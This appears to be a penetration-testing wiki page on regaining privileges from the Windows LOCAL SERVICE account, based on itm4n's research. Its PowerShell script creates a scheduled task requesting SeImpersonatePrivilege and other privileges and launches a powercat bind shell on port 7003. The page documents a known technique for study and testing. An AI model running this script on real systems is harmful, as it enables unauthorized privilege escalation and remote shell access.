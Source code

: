 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Local/Network Service

{% hint style="info" %}
Based on the [Give Me Back My Privileges! Please?](https://itm4n.github.io/localservice-privileges/) blog post by itm4n. The below process can be automated using the [FullPowers](https://github.com/itm4n/FullPowers) PoC created by the same author.
{% endhint %}

The `NT AUTHORITY\LOCAL SERVICE` account is **a built-in Windows service account designed to run system services with minimal privileges**. It has limited access to the local system and presents anonymous credentials on the network, reducing its exposure. Despite these restrictions, if this account is compromised, it can be leveraged for privilege escalation by creating a scheduled task.

<figure><img src="../../../../../.gitbook/assets/local_service_privs.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# Create a list of privileges 
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeShutdownPrivilege", "SeUndockPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"

# Create a Principal for the task 
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs

# Create an Action object for the task
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `". C:\TOOLS\powercat.ps1; powercat -l -p 7003 -ep`""

# Register the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask2" -Principal $TaskPrincipal

# Start the task
Start-ScheduledTask -TaskName "SomeTask2"
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/local_service_privs_2.png" alt=""><figcaption></figcaption></figure>
